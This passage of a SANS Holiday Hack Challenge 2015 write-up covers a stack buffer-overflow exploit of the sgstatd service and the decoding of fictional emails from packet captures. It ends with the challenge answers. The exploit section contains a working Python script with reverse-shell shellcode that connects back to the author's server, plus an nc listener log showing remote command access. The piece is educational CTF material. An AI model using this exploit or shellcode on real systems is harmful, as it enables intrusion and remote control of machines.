        recv(sd, &choice, 1, 0);

        switch (choice) {
        case 49:
            fp = popen("/bin/df", "r");
            if (fp == NULL) {
                printf("Failed to run command\n");
                exit(1);
            }
            while (fgets(path, sizeof(path), fp) != NULL) {
                sgnet_writes(sd, path);

            }
            break;

        case 50:
            fp = popen("/bin/netstat -tan", "r");
            if (fp == NULL) {
                printf("Failed to run command\n");
                exit(1);
            }
            while (fgets(path, sizeof(path) - 1, fp) != NULL) {
                sgnet_writes(sd, path);
            }
            break;

        case 51:
            fp = popen("/usr/bin/who", "r");
            if (fp == NULL) {
                printf("Failed to run command\n");
                exit(1);
            }
            while (fgets(path, sizeof(path) - 1, fp) != NULL) {
                sgnet_writes(sd, path);
            }
            break;

        case 88:
            write(sd, "\n\nHidden command detected!\n\n", 32);
            write(sd, "Enter a short message to share with GnomeNet (please allow 10 seconds) => ", 75);
            fflush(stdin);
            sgstatd(sd);

There seems to be a hidden command when we input :code:`88`, which is the
ASCII code of the letter :code:`X`. If we input :code:`X`, the function
:code:`sgstatd` is called. Let's take a look at it:

.. code-block:: c
    :hl_lines: 4 11 12 13

    // File sgstatd.c, line 138
    int sgstatd(sd)
    {
        __asm__("movl $0xe4ffffe4, -4(%ebp)");
        //Canary pushed

        char bin[100];
        write(sd, "\nThis function is protected!\n", 30);
        fflush(stdin);
        //recv(sd, &bin, 200, 0);
        sgnet_readn(sd, &bin, 200);
        __asm__("movl -4(%ebp), %edx\n\t" "xor $0xe4ffffe4, %edx\n\t"   // Canary checked
            "jne sgnet_exit");
        return 0;

    }

Ok, so the function :code:`sgnet_readn` seems to read data from the socket,
and stock it in a buffer. If we look at it, we can see that there is no
boundary checking. What's more, the buffer :code:`bin` only has 100 bytes
allocated, but the program reads and stores 200 bytes of data in it. Can
you say buffer-overflow!

Let's take a look at the binary, to see what kind of security it as. i'm
using the :code:`checksec.sh` (available
`here <https://github.com/slimm609/checksec.sh>`__) script to do so:

.. code-block:: shell

    $ /checksec --file sgstatd
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH  FORTIFY FORTIFIED FORTIFY-able  FILE
    No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No  0       8   sgstatd

Now, make sure you run the script on the binary from the firmware, and not
on a binary you compiled from the source code.

We can see that there is no stack canary, and that :code:`NX` is disabled.
This means that we can put our shellcode directly on the stack. Plus,
:code:`PIE` is also disabled, so we can use a gadget from our base code, and
its position will be the same on the distant binary.

Also there is no stack canary, we can see in the code from the :code:`sgstatd`
function that there is a hardcoded canary: :code:`0xe4ffffe4`. We have to
have this value in our final payload.

Now, let's find a :code:`jmp esp` gadget in our binary, so that we can continue
the flow of execution on the stack. The opcode for such an instruction is
:code:`ff e4`. If this value is familiar, it's because it's used in the custom
stack canary (clever organizers)!

.. code-block:: shell

    $ objdump -M intel -d sgstatd | grep "ff e4"
     8049366:   c7 45 fc e4 ff ff e4    mov    DWORD PTR [ebp-0x4],0xe4ffffe4
     80493b2:   81 f2 e4 ff ff e4       xor    edx,0xe4ffffe4

So, our :code:`jmp esp` gadget is available at the address :code:`0x0804936b`.
Let's see the exploit code:

.. code-block:: python

    #!/usr/bin/env python

    import socket

    def main():
        # This is a connect-back shellcode, configured to connect back
        # to a server I own, on the port 8080.
        # Thanks to http://shell-storm.org/shellcode/
        shellcode = str()
        shellcode += '\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1'
        shellcode += '\xcd\x80\x92\xb0\x66\x68\x51\x39\x0B\x02\x66\x68\x1f\x90'
        shellcode += '\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80'
        shellcode += '\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b'
        shellcode += '\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e'
        shellcode += '\x89\xe3\xcd\x80'

        payload = '\x90' * 104 # padding to overwrite the saved value of eip
        payload += '\xe4\xff\xff\xe4' # canary stack
        payload += '\x6b\x93\x04\x08' # address of our 'jump esp' gadget
        payload += '\x6b\x93\x04\x08'
        payload += shellcode
        payload += '\x90' * (200 - len(payload)) # padding to get a length of 200 bytes

        # We connect to our distant server
        sock = socket.socket()
        sock.settimeout(0.5)
        sock.connect(('54.233.105.81', 4242))

        # We receive all the data we can
        try:
            sock.recv(4096)
        except socket.timeout:
            pass

        # We enter the secret command
        sock.send('X')

        # We receive all the data we can
        try:
            for i in xrange(7):
                sock.recv(4096),
        except socket.timeout:
            pass

        # We send our payload
        sock.send(payload)

        return 0

    if __name__ == '__main__':
        main()

We launch our exploit:

.. code-block:: shell

    $ ./exploit_sg05.py

And in another terminal, on the server I own:

.. code-block:: shell

   $ nc -lvp 8080
   listening on [any] 8080 ...
   connect to [192.168.XX.XX] from ec2-54-233-105-81.sa-east-1.compute.amazonaws.com [54.233.105.81] 42021
   cat /gnome/www/files/gnome.conf
   Gnome Serial Number: 4CKL3R43V4
   Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
   Allow new subordinates?: YES
   Camera monitoring?: YES
   Audio monitoring?: YES
   Camera update rate: 60min
   Gnome mode: SuperGnome
   Gnome name: SG-05
   Allow file uploads?: YES
   Allowed file formats: .png
   Allowed file size: 512kb
   Files directory: /gnome/www/files/

The flag for this SuperGnome is :code:`4CKL3R43V4`
(`geeky reference <http://www.sou.edu/cs/lynnackler.html>`__).


Part 5: Baby, It’s Gnome Outside: *Sinister Plot and Attribution*
-----------------------------------------------------------------

We can see on the SuperGnomes some capture files, inside ZIP archives. We can
also see from a conversation on the GnomeNET on the SuperGnomes that someone
has a problem with the pictures taken by the gnomes: if some gnomes have the
same name, the uploaded images get scrambled together (the RGB pixels are
XORed with one another):

    Welcome to GnomeNET.

    I noticed an issue when there are multiple child-gnomes with the same name.
    The image feeds become scrambled together. Any way to resolve this other
    than rename the gnomes?? ~DW

    Can you provide an example of the scrambling you're seeing? ~PS

    I uploaded 'camera_feed_overlap_error.png' to SG-01. We have six factory
    test cameras all named the same. The issue occurs only when they have the
    same name. It occurs even if the cameras are not transmitting an image. ~PS

    Oh, also, in the image, 5 of the cameras are just transmitting the 'camera
    disabled' static, the 6th one was in the boss' office. The door was locked
    and the boss seemed busy, so I didn't mess with that one. ~PS

    To help me troubleshoot this, can you grab a still from all six cameras at
    the same time? Also, is this really an issue? ~DW

    I grabbed a still from 5 of the 6 cameras, again, staying out of the boss'
    office! Each cam is directed to a different SG, so each SG has one of the
    5 stills I manually snagged. I named them 'factory_cam_#.png' and pushed
    them up to the files menu. 'camera_feed_overlap_error.png' has that garbled
    image. Oh, and to answer your question. Yes. We have almost 2 million
    cameras... some of them WILL be named the same. Just fix it. ~PS

    Took a look at your issue. It looks like the camera feed collector only
    cares about the name and will merge the feeds. Looks like each pixel is
    XORed... Its going to be a lot of work to fix this. We are too late in
    the game to push a new update to all the cameras... stop naming cameras
    the same name. ~DW

So we have six images: five from some gnomes and one from the boss' office.
By recovering the five images and XORing them with the sixth image, we can
see an image from the boss' office!

By using the vulnerabilities from Part 4, we can recover the capture file
and the images.

You can download the capture files here:

* `First capture file </docs/sans-christmas-challenge-2015/20141226101055_1.pcap>`__
  (sha256: :code:`a15a537562a4c828bf9eebd09f8f99686df76a4854a741a2df63902a023a1cea`)
* `Second capture file </docs/sans-christmas-challenge-2015/20150225093040_2.pcap>`__
  (sha256: :code:`d4481450877d1468fba6c038f2a2c7b72eaab80540dda07fcc28b0a63045bd0c`)
* `Third capture file </docs/sans-christmas-challenge-2015/20151201113358_3.pcap>`__
  (sha256: :code:`f12950e677cfa1646c1c616a62d063497cf0d2cc9cea3a0167ad302a02b682c8`)
* `Fourth capture file </docs/sans-christmas-challenge-2015/20151203133818_4.pcap>`__
  (sha256: :code:`45f076467bdd69d4855d21726f398f246b7179e499fde663b4f6c7e77ba39025`)
* `Fifth capture file </docs/sans-christmas-challenge-2015/20151215161015_5.pcap>`__
  (sha256: :code:`5a637e03e9a2ea4b4fde5437eabd281d2e78c6b383a31f0e705dd9da2ec6c12a`)

You can download the images here:

* `First factory image </images/sans-christmas-challenge-2015/factory_cam_1.png>`__
* `Second factory image </images/sans-christmas-challenge-2015/factory_cam_2.png>`__
* `Third factory image </images/sans-christmas-challenge-2015/factory_cam_3.png>`__
* `Fourth factory image </images/sans-christmas-challenge-2015/factory_cam_4.png>`__
* `Fifth factory image </images/sans-christmas-challenge-2015/factory_cam_5.png>`__
* `Camera overlay image </images/sans-christmas-challenge-2015/camera_feed_overlap_error.png>`__

Let's look at the capture files first. By opening them with Wireshark,
we can see some SMTP and IMAP traffic.By using the wonderful
"Follow TCP Stream" functionnality, we can recover the full traffic.

First capture file
~~~~~~~~~~~~~~~~~~

::

    From: "c" <c@atnascorp.com>
    To: <jojo@atnascorp.com>
    Subject: GiYH Architecture
    Date: Fri, 26 Dec 2014 10:10:55 -0500

    JoJo,

    As you know, I hired you because you are the best architect in town for a
    distributed surveillance system to satisfy our rather unique business
    requirements.  We have less than a year from today to get our final plans in
    place.  Our schedule is aggressive, but realistic.

    I've sketched out the overall Gnome in Your Home architecture in the diagram
    attached below.  Please add in protocol details and other technical
    specifications to complete the architectural plans.

    Remember: to achieve our goal, we must have the infrastructure scale to
    upwards of 2 million Gnomes.  Once we solidify the architecture, you'll work
    with the hardware team to create device specs and we'll start procuring
    hardware in the February 2015 timeframe.

    I've also made significant progress on distribution deals with retailers.

    Thoughts?

    Looking forward to working with you on this project!

    -C

Attached to this email is this image:

.. image:: /images/sans-christmas-challenge-2015/giyh_architecture.jpg
    :alt: giyh_architecture.jpg
    :align: center

Second capture file
~~~~~~~~~~~~~~~~~~~

::

    From: "c" <c@atnascorp.com>
    To: <supplier@ginormouselectronicssupplier.com>
    Subject: Large Order - Immediate Attention Required
    Date: Wed, 25 Feb 2015 09:30:39 -0500

    Maratha,

    As a follow-up to our phone conversation, we'd like to proceed with an order
    of parts for our upcoming product line.  We'll need two million of each of
    the following components:

    * Ambarella S2Lm IP Camera Processor System-on-Chip (with an ARM Cortex A9
      CPU and Linux SDK)
    * ON Semiconductor AR0330: 3 MP 1/3" CMOS Digital Image Sensor
    * Atheros AR6233X Wi-Fi adapter
    * Texas Instruments TPS65053 switching power supply
    * Samsung K4B2G16460 2GB SSDR3 SDRAM
    * Samsung K9F1G08U0D 1GB NAND Flash

    Given the volume of this purchase, we fully expect the 35% discount you
    mentioned during our phone discussion.  If you cannot agree to this pricing,
    we'll place our order elsewhere.

    We need delivery of components to begin no later than April 1, 2015, with
    250,000 units coming each week, with all of them arriving no later than June
    1, 2015.


    Finally, as you know, this project requires the utmost secrecy.   Tell NO
    ONE about our order, especially any nosy law enforcement authorities.

    Regards,

    -CW

Third capture file
~~~~~~~~~~~~~~~~~~

::

    From: "c" <c@atnascorp.com>
    To: <burglerlackeys@atnascorp.com>
    Subject: All Systems Go for Dec 24, 2015
    Date: Tue, 1 Dec 2015 11:33:56 -0500

    My Burgling Friends, 

    Our long-running plan is nearly complete, and I'm writing to share the date
    when your thieving will commence!  On the morning of December 24, 2015, each
    individual burglar on this email list will receive a detailed itinerary of
    specific houses and an inventory of items to steal from each house, along
    with still photos of where to locate each item.  The message will also
    include a specific path optimized for you to hit your assigned houses
    quickly and efficiently the night of December 24, 2015 after dark.

    Further, we've selected the items to steal based on a detailed analysis of
    what commands the highest prices on the hot-items open market.  I caution
    you - steal only the items included on the list.  DO NOT waste time grabbing
    anything else from a house.  There's no sense whatsoever grabbing crumbs too
    small for a mouse!

    As to the details of the plan, remember to wear the Santa suit we provided
    you, and bring the extra large bag for all your stolen goods.

    If any children observe you in their houses that night, remember to tell
    them that you are actually "Santy Claus", and that you need to send the
    specific items you are taking to your workshop for repair.  Describe it in a
    very friendly manner, get the child a drink of water, pat him or her on the
    head, and send the little moppet back to bed.  Then, finish the deed, and
    get out of there.  It's all quite simple - go to each house, grab the loot,
    and return it to the designated drop-off area so we can resell it.  And,
    above all, avoid Mount Crumpit! 

    As we agreed, we'll split the proceeds from our sale 50-50 with each
    burglar.

    Oh, and I've heard that many of you are asking where the name ATNAS comes
    from.  Why, it's reverse SANTA, of course.  Instead of bringing presents on
    Christmas, we'll be stealing them!

    Thank you for your partnership in this endeavor. 

    Signed:

    -CLW

    President and CEO of ATNAS Corporation

Fourth capture file
~~~~~~~~~~~~~~~~~~~

::

    From: "c" <c@atnascorp.com>
    To: <psychdoctor@whovillepsychiatrists.com>
    Subject: Answer To Your Question
    Date: Thu, 3 Dec 2015 13:38:15 -0500

    Dr. O'Malley,

    In your recent email, you inquired:

    > When did you first notice your anxiety about the holiday season?

    Anxiety is hardly the word for it.  It's a deep-seated hatred, Doctor.

    Before I get into details, please allow me to remind you that we operate
    under the strictest doctor-patient confidentiality agreement in the
    business.  I have some very powerful lawyers whom I'd hate to invoke in the
    event of some leak on your part.  I seek your help because you are the best
    psychiatrist in all of Who-ville.

    To answer your question directly, as a young child (I must have been no more
    than two), I experienced a life-changing interaction.  Very late on
    Christmas Eve, I was awakened to find a grotesque green Who dressed in a
    tattered Santa Claus outfit, standing in my barren living room, attempting
    to shove our holiday tree up the chimney.  My senses heightened, I put on my
    best little-girl innocent voice and asked him what he was doing.  He
    explained that he was "Santy Claus" and needed to send the tree for repair.
    I instantly knew it was a lie, but I humored the old thief so I could escape
    to the safety of my bed.  That horrifying interaction ruined Christmas for
    me that year, and I was terrified of the whole holiday season throughout my
    teen years.

    I later learned that the green Who was known as "the Grinch" and had lost
    his mind in the middle of a crime spree to steal Christmas presents.  At the
    very moment of his criminal triumph, he had a pitiful change of heart and
    started playing all nicey-nice.  What an amateur!  When I became an adult,
    my fear of Christmas boiled into true hatred of the whole holiday season.  I
    knew that I had to stop Christmas from coming.  But how?

    I vowed to finish what the Grinch had started, but to do it at a far larger
    scale.  Using the latest technology and a distributed channel of burglars,
    we'd rob 2 million houses, grabbing their most precious gifts, and selling
    them on the open market.  We'll destroy Christmas as two million homes full
    of people all cry "BOO-HOO", and we'll turn a handy profit on the whole
    deal.

    Is this "wrong"?  I simply don't care.  I bear the bitter scars of the
    Grinch's malfeasance, and singing a little "Fahoo Fores" isn't gonna fix
    that!

    What is your advice, doctor?

    Signed,

    Cindy Lou Who

Fifth capture file
~~~~~~~~~~~~~~~~~~

::

    From: "Grinch" <grinch@who-villeisp.com>
    To: <c@atnascorp.com>
    Subject: My Apologies & Holiday Greetings
    Date: Tue, 15 Dec 2015 16:09:40 -0500

    Dear Cindy Lou,

    I am writing to apologize for what I did to you so long ago.  I wronged you
    and all the Whos down in Who-ville due to my extreme misunderstanding of
    Christmas and a deep-seated hatred.  I should have never lied to you, and I
    should have never stolen those gifts on Christmas Eve.  I realize that even
    returning them on Christmas morn didn't erase my crimes completely.  I seek
    your forgiveness.

    You see, on Mount Crumpit that fateful Christmas morning, I learned th[4 bytes missing in capture file]at
    Christmas doesn't come from a store.  In fact, I discovered that Christmas
    means a whole lot more!

    When I returned their gifts, the Whos embraced me.  They forgave.  I was
    stunned, and my heart grew even more.  Why, they even let me carve the roast
    beast!  They demonstrated to me that the holiday season is, in part, about
    forgiveness and love, and that's the gift that all the Whos gave to me that
    morning so long ago.  I honestly tear up thinking about it.

    I don't expect you to forgive me, Cindy Lou.  But, you have my deepest and
    most sincere apologies.

    And, above all, don't let my horrible actions from so long ago taint you in
    any way.  I understand you've grown into an amazing business leader.  You
    are a precious and beautiful Who, my dear.  Please use your skills wisely
    and to help and support your fellow Who, especially during the holidays.

    I sincerely wish you a holiday season full of kindness and warmth,

    --The Grinch

Let's unXOR the images
~~~~~~~~~~~~~~~~~~~~~~

With a simple Python script, we can take every image and XOR the RGB pixels
to recover the image from the boss' office:

.. code-block:: python

    #!/usr/bin/env python

    import sys
    from PIL import Image

    def main():
        # We open the camera feed overlap image
        scrambled_image = Image.open(sys.argv[6]).convert('RGB')
        scrambled_image_pixels = scrambled_image.load()
        width, height = scrambled_image.size

        # For every image found in one of the SuperGnomes
        for image in sys.argv[1:6]:
            image_pixels = Image.open(image).convert('RGB').load()
            for i in xrange(width):
                for j in xrange(height):
                    # We take the RGB components
                    r1, g1, b1 = scrambled_image_pixels[i, j]
                    r2, g2, b2 = image_pixels[i, j]
                    # And we XOR them to recover the original value
                    scrambled_image_pixels[i, j] = (r1 ^ r2, g1 ^ g2, b1 ^ b2)

        # We save the result in a new image
        scrambled_image.save('result.png', 'PNG')

        return 0

    if __name__ == '__main__':
        main()

Then, we just have to run this script:

.. code-block:: shell

    $ ./unxor_images.py sg01/factory_cam_1.png sg02/factory_cam_2.png sg03/factory_cam_3.png \
        sg04/factory_cam_4.png sg05/factory_cam_5.png camera_feed_overlap_error.png

This gives us the resulting image:

.. image:: /images/sans-christmas-challenge-2015/sans_xor_image_result.png
    :alt: sans_xor_image_result.png    
    :align: center

Epilogue: ‘Twas the Gnome Before Christmas: *Wrapping It All Up*
----------------------------------------------------------------

As in every SANS Christmas Challenge, we have to answer several
questions:

1. Which commands are sent across the Gnome’s command-and-control
   channel?

The command sent to the command-and-control server are :code:`iwconfig` and
:code:`cat /tmp/iwlistscan.txt`.

2. What image appears in the photo the Gnome sent across the
   channel from the Dosis home?

We can see a picture of Josh's bedroom.

3. What operating system and CPU type are used in the Gnome?
   What type of web framework is the Gnome web interface built in?

The Gnome is running OpenWRT in the development branch.
Its CPU architecture is 32-bit ARM. The web interface is built
with NodeJS, with Jade Node as the template engine.

4. What kind of a database engine is used to support the Gnome web
   interface? What is the plaintext password stored in the Gnome database?

The database engine is MongoDB. The plaintex password is
:code:`SittingOnAShelf`.

5. What are the IP addresses of the five SuperGnomes scattered around the
   world, as verified by Tom Hessman in the Dosis neighborhood?
6. Where is each SuperGnome located geographically?

* SuperGnome01: 52.2.229.189, located in United States, Ashburn (VI)
* SuperGnome02: 52.34.3.80, located in United States, Portland (OR)
* SuperGnome03: 52.64.191.71, located in Australia, Sydney
* SuperGnome04: 52.192.152.132, located in Japan, Tokyo
* SuperGnome05: 54.233.105.81, located in Brazil, Sao Paulo

7. Please describe the vulnerabilities you discovered in the
   Gnome firmware.
8. Describe the technique you used to gain access to each SuperGnome’s
   gnome.conf file.

* SuperGnome01: Credentials stored in plaintext. Reuse of credentials.
* SuperGnome02: Arbitrary folder creation. Local file inclusion.
* SuperGnome03: NoSQL injection
* SuperGnome04: Server Side JavaScript injection
* SuperGnome05: Buffer-overflow

9. Based on evidence you recover from the SuperGnomes’ packet capture ZIP
   files and any staticky images you find, what is the nefarious plot of
   ATNAS Corporation?

The plot of the ATNAS Corporation is to sell millions of Gnomes to families,
so that they can identify valuable objects, and then come and steal it during
Christmas night, by disguising themselves as Santy Claus.

10. Who is the villain behind the nefarious plot?

The villain is none other that
`Cindy Lou Who <http://seuss.wikia.com/wiki/Cindy_Lou_Who>`__. After being
traumatised by the Grinch stealing Christmas, she has developped a deep
hatred for this holiday.

Conclusion
----------

I really enjoyed doing this challenge, because it allowed me to develop
my skills in technologies I'm not familiar with, such as NoSQL database
engines, or buffer-overflow (something I should really work on).

Many thanks to the SANS institute for this incredible Christmas Challenge!
